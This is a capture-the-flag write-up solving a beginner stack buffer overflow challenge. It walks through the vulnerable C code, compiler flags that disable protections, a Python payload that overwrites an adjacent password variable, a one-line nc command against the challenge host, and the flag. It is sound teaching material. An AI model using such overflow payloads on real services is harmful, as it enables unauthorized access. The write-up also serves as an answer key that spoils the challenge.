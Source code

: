 This is the first chanllenge in the pwnables category:

The challenge is asking you to connect to `nc pwnable.hackable.ca 9993` that runs an executable that asks you to `Enter your name`, and based on your answer it should give you the correct flag.

The sourcecode of the executable is given in the challenge, (buffer_overflow1.c)


# Solution

1. Analyzing code
2. Compiling the code
3. Crafting our buffer overflow input

## 1. Analyzing code
Looking at the sourcecode we notice that this is an easy buffer overflow example.

1. It creates an integer variable `password` and saves in it the hex value `0xcafebabe`. It also creates a string variable `your_name` of size 100. 

```
int password = 0xcafebabe;
char your_name[100] = {0};
```
2. It prints `Enter your name` and reads the input into the variable `your_name`
```
printf("Enter your name\n");
fflush(stdout);
read(0, your_name, 0x100);
```
3. Then it compares the variable `password` to the value `0xdeadbeef` and if correct it will print the FLAG if not it asks to try again and exits.
```
if(password == 0xdeadbeef) {
    puts("GOOD WORK!\n");
    puts("FLAG{**********************}");
}
else {
    puts("Nice try :( Your name didn't meet my expectations\n");
}
```

>if we make some research about the `read` function in C we find that read() don't work with strings, but with buffers, and as such it doesn't need to know their contents, just their size. As long as it only uses the buffer, there won't be any overrun problems. The problem may come if you later treat that buffer as a string. In that case, you will most probably overrun it.


we also notice that in the `read` function it reads `0x100` bytes which is `256` bytes, however the variable `your_name` is only 100 bytes long. This means that the `read` function can lead to a buffer overflow vulnerability.

## 2. Compiling the code
`gcc buffer_overflow1.c -o buffer_overflow1.exe -fno-stack-protector -z execstack -no-pie`

we use `-fno-stack-protector -z execstack -no-pie` to ensure no stack protection is running so our exploit can run.

## 3. crafting our buffer overflow input
To solve this challenge we need to change the value of the password variable to `0xdeadbeef` to do this we need to use the `read` function to overwrite the stack space of the variable `password`.

The stack has the variable `password` with length 8 bytes on top of it (remember: stack addresses are flipped) the `your_name` variable with length of 100 bytes. So we need to enter 100 bytes then our new password value of `0xdeadbeef`.

```
+++++++++++++++++++++++++++++++++
+           +                   +
+           +                   +
+    100    +    your_name      +
+   bytes   +                   +
+           +                   +
+           +                   +
+++++++++++++++++++++++++++++++++
+    8      +    password       +
+   bytes   +                   +
+++++++++++++++++++++++++++++++++
```

>Note that: the variable `passowrd` is in hex and we read it in Little Indian from right to left.


To craft our malformed input, we use python as follows:

`
print('A'*100+'efbeadde'.decode('hex'))
`

OR:

`
print('A'*100+'\xef\xbe\xad\xde')
`

`
>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
`

>Note: To not get confused with the hex to ASCII conversion, we can just enter the hex value as `\xXX` to python and it will automatically make the conversion for us. The special chars at the end of the crafted string represent the hex value `0xdeadbeef`

By entering this value into the program, it gives the FLAG.

# One line command:
`python -c "print('A'*100+'\xef\xbe\xad\xde')" | nc pwnable.hackable.ca 9993`

OR:

`python -c "print('A'*100+'efbeadde'.decode('hex'))"| nc pwnable.hackable.ca 9993`

#FLAG:
```FLAG{0v3rfl0w5_ar3_fun}```
